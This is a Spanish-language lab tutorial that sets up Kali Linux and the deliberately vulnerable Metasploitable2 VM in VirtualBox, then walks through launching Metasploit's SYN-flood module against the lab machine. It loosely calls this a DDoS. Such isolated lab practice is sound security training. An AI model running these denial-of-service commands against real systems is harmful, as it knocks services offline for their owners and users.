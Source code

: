 # Metasploitable 2
## Preparación Kali Linux y Metasploitable2
##### Preparando Kali Linux

El virtualizador que usaremos es VirtualBox. Lo primero que haremos será irnos a la página de Kali Linux y descargar el archivo OVA:

https://kali.download/virtual-images/kali-2021.4/kali-linux-2021.4-virtualbox-amd64.7z

![imagen](https://user-images.githubusercontent.com/80277545/146815893-0627a255-e3ed-46dd-94da-05bb3cbbc0b9.png)

Una vez descargado, debemos descomprimirlo y obtener el archivo .OVA:

![imagen](https://user-images.githubusercontent.com/80277545/146817611-3e4ed7ef-879d-4d8a-90b9-f7094e341e17.png)

Ahora abrimos VirtualBox e importamos el archivo .OVA:

![imagen](https://user-images.githubusercontent.com/80277545/146817830-dc69f517-8c4a-42bb-a169-c9d594e9fcab.png)

Una vez instalado tendremos que añadirle otra tarjeta de red, esto lo haremos yendo a la configuración de la máquina > Red > Adaptador2. Lo habilitaremos y añadiremos el "Adaptador sólo-anfritión": 

![imagen](https://user-images.githubusercontent.com/80277545/146818821-d302eb96-32f3-4bef-bd4b-d3835508bbb4.png)

( En caso de no tener el "Adaptador sólo-anfritión", podemos añadirlo desde "archivo" > "Administrador de red anfritión" > Crear ) 

![imagen](https://user-images.githubusercontent.com/80277545/146823922-7d4c0b59-c2fa-495a-b5b4-ab6d452c7bec.png)


La ventaja de hacerlo con este método es que no tenemos que "instalar" desde cero Kali Linux. Una vez finalizado, al iniciar el sistema directamente nos pedirá un usuario y una contraseña.

        usuario : kali
        contraseña : kali

##### Preparando Metasploitable2

Ahora descargaremos Metasploitable2 desde el siguiente enlace, para esto tendremos que rellenar este formulario (pueden ser datos falsos) y descargar el archivo comprimido: 

https://information.rapid7.com/download-metasploitable-2017.html

![imagen](https://user-images.githubusercontent.com/80277545/146821125-89d27534-9f43-406a-8b3a-314ef2dc1369.png)

Una vez descargado y descomprimido nos quedarán los siguientes archivos: 

![imagen](https://user-images.githubusercontent.com/80277545/146821415-49dc4747-6175-4f95-94b8-71931b535dda.png)


Ahora crearemos una nueva máquina virtual con las siguientes características:

![imagen](https://user-images.githubusercontent.com/80277545/146820065-5e61817b-266c-44bc-ac2e-54463689d62b.png)

Daremos en "Next" y dejaremos la memoria RAM asignada en "1024".

Posteriormente crearemos un "Disco duro virtual" :

![imagen](https://user-images.githubusercontent.com/80277545/146820292-ee85fe7f-1d16-438a-b7fe-257227093c3a.png)

De tipo "VDI" y "Reservado dinámicamente" de "10GB".

Una vez creada, nos vamos a "Configuración", "Almacenamiento" y eliminaremos "Metasploitable 2.vdi":

![imagen](https://user-images.githubusercontent.com/80277545/146822046-6d53e649-0459-4f13-8050-5ac2e6a94bbe.png)

Ahora añadiremos el nuevo disco que está dentro de los archivos que descargamos de Metasploitable2:

![imagen](https://user-images.githubusercontent.com/80277545/146822386-a1066bf4-722c-4c69-bc52-99acf64e9629.png)

A esta máquina también le cambiaremos el adaptador red "NAT" a "Adaptador sólo-anfritión":

![imagen](https://user-images.githubusercontent.com/80277545/146823149-188a2bb7-94d2-4540-987f-c3e012b0bd9c.png)


Ahora iniciamos la máquina y nos tendría que salir la siguiente interfaz: 

![imagen](https://user-images.githubusercontent.com/80277545/146822770-0af677c1-8d1f-4c32-bf87-cebd1f3caf5b.png)

El usuario y contraseña es: 

                Usuario : msfadmin
                Contraseña : msfadmin

Una vez dentro ejectuaremos "ifconfig" para saber la IP del eth1:

![imagen](https://user-images.githubusercontent.com/80277545/146823247-d17b9f87-11bf-4d0e-858f-0ba882793b00.png)


## Comprobando conectividad

Una vez estamos dentro de las dos máquinas, desde la de Kali vamos a realizar un ping para comprobar que tiene conectividad. En mi caso, la IP de Metasploitable2 es la 192.168.56.105:

           ping 192.168.56.105

![imagen](https://user-images.githubusercontent.com/80277545/146823628-db34255d-90fd-4beb-a9b3-e0b035b85b73.png)

Si resuelve igual que en la imagen anterior, significa que todo está instalado correctamente. 

Podemos ingresar a la página del servidor si desde nuestro Kali Linux introducimos la IP del mismo:

![imagen](https://user-images.githubusercontent.com/80277545/146824329-c54b8f79-1911-4c92-9383-7ea58c62a5ee.png)

# PRACTICA: Realizando un ataque DDoS 

( El fin de esta práctica es educativo )

Desde nuestro Kali, vamos a usar un exploit de Metasploit (recordemos que Metasploit simplemente es como una librería de exploits, una librería de herramientas). 

Abriremos una terminal y ejecutaremos:

        sudo -i 
        

Iniciaremos Metasploit en modo superusuario: 

        sudo msfdb init && msfconsole
        
![imagen](https://user-images.githubusercontent.com/80277545/146827302-48d76b0a-6696-4606-b135-684022cd46e2.png)


Una vez dentro de Metasploit buscaremos la herramienta/exploit synflood , esto lo haremos con el parámetro "search"

        search dos synflood
        
![imagen](https://user-images.githubusercontent.com/80277545/146827368-3bce3c42-0b3b-46d1-893d-85a5c8f08aaf.png)


Seleccionaremos la opción "/auxiliary/dos/tcp/synflood" , esto lo haremos con: 

         use 0 

Una vez seleccionado, miraremos los paramtros de la herramienta con "info":

        info
        
![imagen](https://user-images.githubusercontent.com/80277545/146827466-4088f6be-5251-4c56-9531-42ceb6b87c1c.png)

A continuación pondremos la IP de la maquina a atacar, en este caso será la 192.168.56.105 y ejecutaremos un run:

        set rhosts 192.168.56.105
        run

Al instante se inciará el ataque DDoS:

![imagen](https://user-images.githubusercontent.com/80277545/146829014-d9ccfcff-4ecb-4bde-bb84-2cfe65ba03c8.png)


Cuando se esté realizando el ataque, al recargar la página en el navegador, no nos resolverá la petición y se quedará cargando. Esto significará que el servidor está siendo atacado y no puede responder a todas las solicitudes. 


# Conclusión

Con esto finalizamos la intalación y la practica de Metasploitable2 y Kali Linux, lo suyo sería, a partir de aquí, explorar que posibilidades tenemos para adentrarnos más en el mundo del pentesting. 





